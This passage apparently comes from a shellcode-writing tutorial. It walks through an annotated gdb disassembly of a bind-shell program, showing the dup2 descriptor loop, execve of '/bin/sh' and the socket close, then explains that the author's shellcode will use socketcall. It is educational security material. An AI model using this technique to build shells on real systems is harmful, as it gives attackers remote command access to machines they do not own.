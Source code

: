 ```nasm
   ; 0x0000000[0-2] = newfd
   ; ---------------------------------------------------------------------------------

   ; excecve -------------------------------------------------------------------------
   0x004007ac <+191>:	add    esp,0x10
   0x004007af <+194>:	add    DWORD PTR [ebp-0x2c],0x1
   0x004007b3 <+198>:	cmp    DWORD PTR [ebp-0x2c],0x2
   0x004007b7 <+202>:	jle    0x40079e <main+177>
   0x004007b9 <+204>:	sub    esp,0x4
   0x004007bc <+207>:	push   0x0
   0x004007be <+209>:	push   0x0
   0x004007c0 <+211>:	lea    eax,[ebx-0x175c]
   0x004007c6 <+217>:	push   eax
   0x004007c7 <+218>:	call   0x400540 <execve@plt>
   ; gdb$ x/a $esp
   ; 0xbffff020:	0x4008a4 => "/bin/sh"
   ; gdb$ x/2c $esp+4
   ; 0xbffff024:	0x0 0x0
   ;
   ; parameters:
   ; 0x4008a4 = pointer to filename on stack
   ; 0x0 = argv[]
   ; 0x0 = anvp[]
   ; ---------------------------------------------------------------------------------
   0x004007cc <+223>:	add    esp,0x10
   0x004007cf <+226>:	sub    esp,0xc
   0x004007d2 <+229>:	push   DWORD PTR [ebp-0x24]
   0x004007d5 <+232>:	call   0x400590 <close@plt>
   ; Closes sockfd which tears down the socket
   ; ---------------------------------------------------------------------------------
   0x004007da <+237>:	add    esp,0x10
   0x004007dd <+240>:	mov    eax,0x0
   0x004007e2 <+245>:	mov    edx,DWORD PTR [ebp-0xc]
   0x004007e5 <+248>:	xor    edx,DWORD PTR gs:0x14
   0x004007ec <+255>:	je     0x4007f3 <main+262>
   0x004007ee <+257>:	call   0x400870 <__stack_chk_fail_local>
   0x004007f3 <+262>:	lea    esp,[ebp-0x8]
   0x004007f6 <+265>:	pop    ecx
   0x004007f7 <+266>:	pop    ebx
   0x004007f8 <+267>:	pop    ebp
   0x004007f9 <+268>:	lea    esp,[ecx-0x4]
   0x004007fc <+271>:	ret    
End of assembler dump.
```

NOTE: For the socket calls there are two approaches; using socketcall with sub-functions, or separate system calls for each (socket, accept, bind, etc).  The former is less portable but may allow for cleaner shellcode due to the reuse of the socketcall value.

In this assembly dump it is calling out to the memory address of the function and putting it's parameters to the function on the stack.  In our shellcode we'll use socketcall with parameters in the registers.  Either would work, however.
